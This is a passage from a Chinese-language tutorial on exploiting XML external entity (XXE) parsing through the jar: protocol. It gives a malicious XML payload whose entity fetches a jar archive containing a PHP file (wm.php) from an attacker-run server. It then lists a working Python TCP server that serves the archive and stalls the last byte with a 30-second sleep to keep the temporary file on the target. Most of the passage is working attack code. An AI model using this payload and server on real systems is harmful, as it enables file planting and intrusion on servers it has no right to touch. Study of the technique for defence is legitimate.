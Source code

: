 student.xml
```
<!DOCTYPE convert [ 
<!ENTITY  remote SYSTEM "jar:http://localhost:9999/jar.zip!/wm.php">
]>
<convert>&remote;</convert>
```
目录结构如下图：

![](https://upload-images.jianshu.io/upload_images/15378294-27ecf5bc8301b549.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
可以清楚地看到我的请求是向自己本地的 9999 端口发出的，那么9999 端口上有什么服务呢？实际上是我自己用 python 写的一个 TCP 服务器

示例代码：

sever.py
```
import sys 
import time 
import threading 
import socketserver 
from urllib.parse import quote 
import http.client as httpc 

listen_host = 'localhost' 
listen_port = 9999 
jar_file = sys.argv[1]

class JarRequestHandler(socketserver.BaseRequestHandler):  
    def handle(self):
        http_req = b''
        print('New connection:',self.client_address)
        while b'\r\n\r\n' not in http_req:
            try:
                http_req += self.request.recv(4096)
                print('Client req:\r\n',http_req.decode())
                jf = open(jar_file, 'rb')
                contents = jf.read()
                headers = ('''HTTP/1.0 200 OK\r\n'''
                '''Content-Type: application/java-archive\r\n\r\n''')
                self.request.sendall(headers.encode('ascii'))

                self.request.sendall(contents[:-1])
                time.sleep(30)
                print(30)
                self.request.sendall(contents[-1:])

            except Exception as e:
                print ("get error at:"+str(e))


if __name__ == '__main__':

    jarserver = socketserver.TCPServer((listen_host,listen_port), JarRequestHandler) 
    print ('waiting for connection...') 
    server_thread = threading.Thread(target=jarserver.serve_forever) 
    server_thread.daemon = True 
    server_thread.start() 
    server_thread.join()
```
这个服务器的目的就是接受客户端的请求，然后向客户端发送一个我们运行时就传入的参数指定的文件，但是还没完，实际上我在这里加了一个 sleep(30)，这个的目的我后面再说
